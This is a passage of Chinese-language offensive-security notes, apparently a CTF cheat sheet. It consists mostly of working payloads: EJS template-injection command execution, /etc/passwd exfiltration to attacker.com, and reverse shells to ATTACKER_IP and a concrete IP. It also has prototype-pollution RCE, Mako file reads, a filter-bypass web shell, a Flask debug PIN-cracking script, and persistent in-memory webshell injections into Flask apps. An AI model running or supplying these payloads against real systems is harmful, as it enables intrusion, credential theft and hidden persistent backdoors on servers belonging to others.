<%= require('fs').readdirSync('.', 'utf8') %>          <!-- 列出当前目录 -->


写入文件
<% require('fs').writeFileSync('/tmp/test.txt', 'hacked') %>


命令执行
使用 require
<%= require('child_process').execSync('whoami').toString() %>
<%= require('child_process').execSync('ls -la').toString() %>
<%= require('child_process').execSync('id').toString() %>


process.mainModule
<%= process.mainModule.require('child_process').execSync('pwd').toString() %>


使用全局对象
<%= global.process.mainModule.require('child_process').execSync('uname -a').toString() %>

外带数据
<%= require('child_process').execSync('curl http://attacker.com/?data=' + require('fs').readFileSync('/etc/passwd')).toString() %>


反弹Shell
Bash 反弹
<% require('child_process').execSync('bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1') %>

Netcat 反弹
<% require('child_process').execSync('nc ATTACKER_IP PORT -e /bin/bash') %>

Python 反弹
<% require('child_process').execSync('python -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"ATTACKER_IP\\\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);\"') %>
```

高级绕过技巧
字符串拼接绕过过滤
<%= require('child_pro' + 'cess').execSync('ls') %>
<%= global['process']['mainModule']['require']('child_process')['execSync']('id') %>


使用 Buffer
<%= require('fs').readFileSync(Buffer.from('/etc/passwd')) %>


编码绕过
<%= eval(Buffer.from('cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKCdpZCcp', 'base64').toString()) %>


创建Web Shell
<% require('fs').writeFileSync('shell.js', 'require(\"http\").createServer((req,res)=>{require(\"child_process\").exec(req.url.slice(1),(e,o)=>res.end(o))}).listen(8888)') %>
````

例如：

```
<%= setInterval.constructor('return process')().mainModule.require('child_process').execSync('ls').toString() %>
```

### ejs模板注入&js原型链污染

ejs模板中有一个outputFunctionName属性，原本在ejs模板中是空的。
但是一旦有了值，ejs模板就会将outputFunctionName当作函数执行。

只要配合原型链污染漏洞（原型链污染往往来自其他函数的滥用），将上游的`outputFunctionName`污染即可

```
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').execSync('calc');var __tmp2"}}

{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec('calc');var __tmp2"}}

{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/120.77.200.94/8888 0>&1\"');var __tmp2"}}

```

---

## Mako

### 基础语法

- 变量取值：

  ```javascript
  ${ }：输入 `1+1`，`字符串`，`方法`，都会有执行结果
  显示变量temp的值：${temp}
  变量temp乘2：${temp*2}
  变量temp的平方：${pow(temp,2)}
  ```

- 2、转义符

  在定义变量时，如果其中包含特殊符号时记得要使用转义符转换。u负责转换URL地址，h转换HTML，x对XML进行转义，trim就是去空格啦。

  ```javascript
  url: ${"there is some text"}
  url(with escaping): ${"there is some text" | u}
  执行：
  url: there is some text
  url(with escaping): there+is+some+text##空格被解析为+号
  ```

  ```javascript
  html: ${"show <table>"}
  html(with escaping): ${"show <table>" | h}
  执行：
  html: show <table>
  html(with escaping): show &lt;table&gt;##<>被成功转义
  ```

- 控制结构：

  ```javascript
  %for ... : %endfor
  %if ... : ... %elif: ... % else: ... %endif
  ```

- Python 代码块：

  ```javascript
  <%%>
  ```

- 导入模块：

  ```javascript
  <%! %>
  ```

- 定义函数：

  ```javascript
  `<%def name="..." > ... </%def>`，调用：`${...()}`
  ```

- 注释：

  ```javascript
  ##（单行）、<%doc>（多行）
  ```

- 其他：

  ```javascript
  继承模板：<%inherit ... />
  包含模板：<%include ... />，
  引用：<%page ... />
  ```

 **Mako 模板内部的 __M_writer 把结果写进输出缓冲**

```
<%
__M_writer(getattr(open("/flag"), "read")())
%>


利用chr函数绕过关键字过滤
<% __M_writer(getattr(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)), chr(114)+chr(101)+chr(97)+chr(100))()) %>

# getattr 不使用点号
getattr(file, "read")  # ✅ 函数调用形式

getattr() 是 Python 的内置函数，用于获取对象的属性或方法。
getattr 在这里的作用是通过字符串名称 "read" 来获取文件对象的 read 方法，然后调用它。
```

---

# python debug pin码计算

## **pin码**

对于有文件包含或文件读取的漏洞，且开启debug功能

想要执行指令还需要输入pin码

输入pin码后可以输入命令执行	可尝试本地构造pin码进入控制台


## pin码生成原理

pin码主要由六个参数构成

```
1. username -->执行代码时候的用户名
2. getattr(app,"__name__",app.__class__.__name__) 固定值默认-->Flask
3. modname -->固定值默认flask.app
4. getattr(mod,"__file__",None) -->app.py 文件所在路径
5. str(uuid.getnode()) -->电脑上mac地址
6. get_machine_id()	-->根据操作系统不同，有四种获取方式
```

生成pin码Debugger PIN的代码是在 `get_pin_and_cookie_name`

---

### 1、获取用户名username

```
import getpass
username = getpass.getuser()
print(username)
```

生成username

### 2、获取app对象name属性

`getattr(app,"__name__",type(app).__name__)`

```
from flask import Flask
app=Flask(__name__)

print(getattr(app,"__name__",type(app).__name__))
```

```
获取的是当前app对象的__name__属性，
若不存在则获取类的__name__属性，
默认为Flask
```

### 3、获取app对象module属性

```
import sys
from flask import Flask
import typing as t
app=Flask(__name__)

modname = getattr(app,"__module__",t.cast(object,app).__class__.__module__)
mod = sys.modules.get(modname)

print(mod)
```

```
取的是app对象的__module__属性，
若不存在的话取类的__module__属性
默认为flask.php
```

### 4、mod的\_\_file\_\_属性

app.py文件所在路径

```
import sys
from flask import Flask
import typing as t
app = Flask(__name__)

modname = getattr(app,"__module__",t.cast(object,app).__class__.__module__)
mod = sys.module.get(modname)

print(getattr(mod,"__file__",None))

#C:\Users\mcc06\Downloads\sstilabs-master\venv\lib\site-packages\flask\app.py
```

### 5、uuid

实际上就是当前网卡的物理地址的整型

```
import uuid 

print(str(hex(uuid.getnode())))
```

### 6、get_machine_id获取

Python flask版本不同，读取顺序也不同

```
Linux	/etc/machine-id,/proc/sys/kernl/random/boot_id	前者固定后者不固定

docker	/proc/self/cgroup	正则分割

macOS	ioreg -c IOPIatformExpertDevice -d 2	"serial-number" = < {ID}部分

windows	HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Cryptography/MachineGuid  ]	注册表
```

---

## pin码生成六参数

```
1、username -->用户名root
2、modname -->flask.app
3、getattr(app,"__name__",app.__class__.__name__) -->Flask
4、getattr(mod,"__file__",None) --> flask目录下的一个app.py的绝对路径
5、str(uuid.getnode()) -->mac地址十进制
6、get_machine_id()	-->根据操作系统不同，有四种获取方式
```

---

## pin码计算例题

[参考：](https://blog.csdn.net/2401_86190146/article/details/145838268)

读取debug控制板的pin码

pin码也就是flask在开启debug模式下，进行代码调试模式的进入密码，需要正确的PIN码才能进入调试模式

想要拿到pin码需要知道： 

1. username，启动这个flask的用户名，在/etc/passwd
2. modname，默认值为flask.app
3. appname，默认值为Flask
4. moddir，flask库下app.py的绝对路径，可以通过报错拿到,如传参的时候给个不存在的变量
5. uuidnode，当前网络的mac地址的十进制数,任意文件读 /sys/class/net/eth0/address
6. machine_id，docker机器id
   docker：/proc/self/cgroup
   linux：/etc/machine-id

   ```
   get_machine_id() ：/etc/machine-id或者 /proc/sys/kernel/random/boot_i中的值
   假如是在win平台下读取不到上面两个文件，就去获取注册表中SOFTWARE\Microsoft\Cryptography的值 假如是Docker机 那么为 /proc/self/cgroup docker行 
   ```
   
   
   
   **1.获取username： 查看flask用户，用户名为flaskweb（在最后一行）**
   
   ```
   {{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/etc/passwd').read()}}
   ```
   
   `__mro__[-1]：`
   通过索引 -1 取出元组的最后一个元素，也就是 object 类，因为 object 是 Python 中所有类的基类。
   
   

​	**2获取moddir：报错信息显示**


​	**3.uuidnode： 获得机器的mac地址（十六进制），将其转换成十进制**

```
{{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/sys/class/net/eth0/address').read()}}
```

​	**4.machine_id：**获得机器id 

```

	
		{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}
	

```

计算pin脚本

```
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask', # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]
 
private_bits = [
    '218117161077153',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
]
 
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
 
cookie_name = '__wzd' + h.hexdigest()[:20]
 
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
 
rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
 
print(rv)
```

计算出pin码为220-602-853

在报错界面进入debug环境

然后输入pin码

然后执行命令

```
os.popen('ls /').read()
os.popen('cat /this_is_the_flag.txt').read()
```

---

## 内存马注入

### before_request方法构造内存马

构造payload

```
{{url_for.__globals__['__builtins__']['eval']("__import__('sys').modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None,[]).append(lambda+:__import__('os').popen('echo xpw').read())")}}

```

后续所有的访问结果都将变成xpw, 也就是我们所执行命令的结果

---

### before_request方法构造内存马

### after_request方法构造内存马

```
{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}
```

函数的内容为：

```
lambda resp: #传入参数
    CmdResp if request.args.get('cmd') and      #如果请求参数含有cmd则返回命令执行结果
    exec('
        global CmdResp;     #定义一个全局变量，方便获取
        CmdResp=make_response(os.popen(request.args.get(\'cmd\')).read())   #创建一个响应对象
    ')==None    #恒真
    else resp)  #如果请求参数没有cmd则正常返回
#这里的cmd参数名和CmdResp变量名都是可以改的，最好改成服务中不存在的变量名以免影响正常业务
```

在执行完payload之后, 就能够以GET的方式用cmd执行命令

---


### errorhandler方式构造内存马

payload：

```
{{url_for.__globals__['__builtins__']['exec'](
"
global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('cmd')).read()
",
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']})}}
```

或者

```
{{ url_for.__globals__['__builtins__']['exec'](
"
app.error_handler_spec[None][404][app._get_exc_class_and_code(404)[0]] = lambda c: __import__('os').popen(request.args.get('cmd')).read() if 'cmd' in request.args.keys() else c
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```

随便一个路由返回404然后都可以执行cmd

---

### add_url_rule方式构造内存马

**payload**

```
{{ url_for.__globals__['__builtins__']['exec'](
"
app._got_first_request=False;
app.add_url_rule('/xpw', 'xpw', lambda: '<pre>{0}</pre>'.format(__import__('os').popen(request.args.get('cmd')).read())
);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']})}}
```

在 /xpw路由下就可以执行命令了看到回显了


